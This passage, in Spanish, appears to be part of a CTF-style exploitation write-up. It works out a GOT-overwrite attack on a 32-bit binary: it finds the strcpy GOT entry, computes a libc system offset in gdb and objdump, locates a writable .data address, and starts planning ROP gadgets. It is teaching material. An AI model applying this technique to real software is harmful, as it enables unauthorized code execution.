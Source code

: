 a) Saber el valor de "strcpy" en GOT, como vemos más arriba de PLT se llama a la función en GOT haciendo un "jmp DWORD PTR ds:0x8049710":
```
    	PLT:
	   0x8048368 <strcpy@plt>:	jmp    DWORD PTR ds:0x8049710 <-- Salto a la posición de strcpy en la GOT
	GOT:
	0x8049700:	0xb7fff918	0xb7feff40	0x0804834e	0xb7e10180
	0x8049710 <strcpy@got.plt>:	0xb7e7f2f0	0xb7e41930	0x0804838e	0x0804839e
```
   
b) Hallar el valor del offset, para ello podemos hacerlo de dos maneras:
- Mediante objdump:
```
	objdump -T /lib/i386-linux-gnu/libc.so.6 | egrep 'strcpy$|system$'
	00075580 g   iD  .text	00000042  GLIBC_2.0   strcpy
	0003ab30 g    DF .text	00000037  GLIBC_PRIVATE __libc_system
	0003ab30  w   DF .text	00000037  GLIBC_2.0   system
```
	Offset system-strcpy: 0003ab30-00075580 = 0xfffc55b0
		
- Directamente en gdb:
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e32b30 <__libc_system>
gdb-peda$ p strcpy
$2 = {<text gnu-indirect-function variable, no debug info>} 0xb7e6d580 <strcpy>
gdb-peda$ p/x 0xb7e32b30-0xb7e6d580
$5 = 0xfffc55b0
```

Estos métodos anteriores no dan el valor del offset tal como pone en el blog, me daba error el exploit al probarlo calculándolo de esta manera. Al investigar un poco, he visto que el valor del "strcpy" no corresponde a 0xb7e6d580 ó 0x00075580, sino que se corresponde con el contenido que hay en la dirección [0x8049710] = 0xb7e7f2f0. De esta manera el valor correcto del offset sería: 0xb7e32b30(system) -  0xb7e7f2f0(strcpy) = 0xfffb3840
  
c) Hallar posición de memoria donde podamos guardar el offset calculado anteriormente, para eso necesitamos un lugar estático con permisos de escritura:
```
  readelf -S stack1 | grep "\.data"
  [24] .data             PROGBITS        08049720 000720 000008 00  WA  0   0  4
```
Recopilando, ya tenemos los 3 valores para armar el exploit:
```
strcpy@GOT: 0x8049710
Offset system-strcpy: 0xfffb3840
data: 0x08049720
```

Los pasos a seguir para construir el exploit serán los siguientes:

1) Para guardar el offset en una posicion de memoria que tenga permisos de escritura necesitaremos:

- Instrucciones de ensamblador que nos guarde en un registro el valor donde vamos a guardar en memoria el offset (pop $reg)	
- Instrucciones para meter en esa posición de memoria el valor del offset (del tipo stor [reg] o add [reg])	
	